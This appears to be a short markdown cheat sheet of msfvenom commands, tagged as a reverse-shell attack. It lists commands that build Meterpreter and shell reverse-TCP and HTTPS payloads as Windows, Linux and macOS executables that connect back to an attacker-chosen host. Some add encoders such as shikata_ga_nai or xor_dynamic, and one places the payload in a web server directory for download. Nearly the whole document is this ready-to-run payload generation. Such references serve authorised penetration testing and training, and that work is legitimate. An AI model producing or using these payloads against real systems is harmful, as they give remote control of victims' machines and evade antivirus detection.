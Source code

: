 # msfvenom

% msfvenom, reverse shell

#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## msfvenom payloads list
```
msfvenom --list payloads
```

## msfvenom - payload windows x86 meterpeter unstagged
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f exe > shell.exe
```

## Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
```

## Linux x64 Meterpreter Reverse tcp
```
msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=<ip|tun0> LPORT=<port> prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf
```

## Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

## Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<local> -f exe > shell.exe
```

## Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<local> -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

## Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho > shell.macho
```

## meterpreter x64 - https - non staged
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfnonstaged.exe
```
